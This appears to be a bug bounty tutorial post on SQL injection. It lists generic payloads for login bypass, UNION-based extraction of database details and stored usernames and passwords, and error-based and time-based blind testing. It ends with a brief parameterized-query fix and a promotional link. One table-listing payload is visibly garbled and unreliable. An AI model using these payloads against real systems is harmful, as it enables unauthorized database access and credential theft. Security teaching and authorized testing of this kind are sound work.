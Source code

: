 ## 🔍 Bug Bounty Tip: Master SQL Injection (SQLi) Attacks!

> SQL Injection allows attackers to manipulate databases, bypass authentication, and extract sensitive data! 🚨

### ✅ How to Identify SQL Injection?

### ✅ Look for user input fields that interact with the database:
 - Login forms
 - Search bars
 - URL parameters (id=1, product=10)
 - Cookies
 - Headers (User-Agent, Referer)

### ✅ Inject a simple payload to check for errors:
`' OR '1'='1  `

> If the app logs in without a valid username/password, it’s vulnerable! 🎯

### 🔥 Exploitation Techniques

### 1️⃣ Authentication Bypass

🔹 Bypass login using SQLi:
- `admin' -- ` 
- `' OR '1'='1' --  `
- `" OR "1"="1" --  `
- `' OR 1=1#  `

🔹 Test for comment-based injections:
- `' OR 1=1--  `
- `' OR 1=1#  `
- `' OR 1=1/*`  

### 2️⃣ Extracting Database Information

🔹 Find the number of columns:
- `ORDER BY 1--  `
- `ORDER BY 2--  `
- `ORDER BY 3-- (Increase number until error occurs)`

🔹 Find database version:
- `' UNION SELECT NULL, @@version--` 

🔹 Find database name:
- `' UNION SELECT NULL, database()-- ` 

🔹 Find available tables (MySQL):
- `Stable_schema=database()-- ` 

🔹 Find available columns in a table:
- `' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users'-- ` 

### 3️⃣ Extracting Credentials

🔹 Dump user credentials (MySQL example):
- `' UNION SELECT username, password FROM users--`  

🔹 If passwords are hashed (MD5, SHA-1, etc.), crack them using hashcat or online tools.


### 4️⃣ Error-Based SQL Injection

Sometimes, error messages leak database information:
' AND 1=CONVERT(int, @@version)--  

If an error appears, it confirms SQL Injection is possible! 🎯

### 5️⃣ Blind SQL Injection (Boolean-Based & Time-Based)

When no errors appear, test using time delays:
- `' OR IF(1=1, SLEEP(5), 0)-- ` 

If the response is delayed, the database executes SQL Injection successfully!

🛡️ Preventing SQL Injection

⚠️ Developers should use parameterized queries (prepared statements) to avoid SQL Injection vulnerabilities.

Example (**Safe Query in Python**):

` cursor.execute("SELECT * FROM users WHERE username = %s AND password = %s", (username, password))`

### 💥 SQL Injection can lead to full database dumps, password leaks, and account takeovers! Always test responsibly and report vulnerabilities ethically! ⚠️

🚀 Join [@CyberSecPlayground](https://t.me/cybersecplayground) for more advanced hacking techniques, bug bounty tips, and private tools!

> 📢 #BugBounty #SQLi #Pentesting #CyberSecurity #EthicalHacking #CyberSecPlayground
